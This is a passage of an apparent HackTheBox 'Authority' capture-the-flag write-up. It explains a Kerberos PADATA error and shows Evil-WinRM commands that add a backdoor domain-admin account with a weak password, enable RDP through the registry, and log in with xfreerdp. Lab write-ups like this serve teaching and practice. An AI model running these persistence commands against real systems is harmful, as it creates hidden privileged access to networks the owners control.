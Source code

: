 ![image-5.png](/assets/img/Authority/image-5.png)

## Post exploitation 
### Explaining why KDC_ERR_PADATA_TYPE_NOSUPP was intended
After completing the box, I noticed many people in the HackTheBox discord were wondering if this PADATA 'error' was intended, or why we had to get around it using `pass-the-cert`. To explain why this appeared, in our `WinRM` shell add a new user `rootjack` to the `Domain Admins` and `Remote Desktop Users` group. We can then enable RDP to open `3389` and hop on the DC via the GUI. 

```shell
*Evil-WinRM* PS C:\Users\Administrator\Documents> net user rootjack Password123! /add
*Evil-WinRM* PS C:\Users\Administrator\Documents> net localgroup Administrators rootjack /add
*Evil-WinRM* PS C:\Users\Administrator\Documents> net group "Domain Admins" rootjack /add
*Evil-WinRM* PS C:\Users\Administrator\Documents> net localgroup "Remote Desktop Users" rootjack /add
*Evil-WinRM* PS C:\Users\Administrator\Documents> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

┌──(kali㉿kali)-[~/Desktop]
└─$ xfreerdp /v:10.129.235.244 /u:rootjack /p:Password123! /dynamic-resolution +clipboard
```
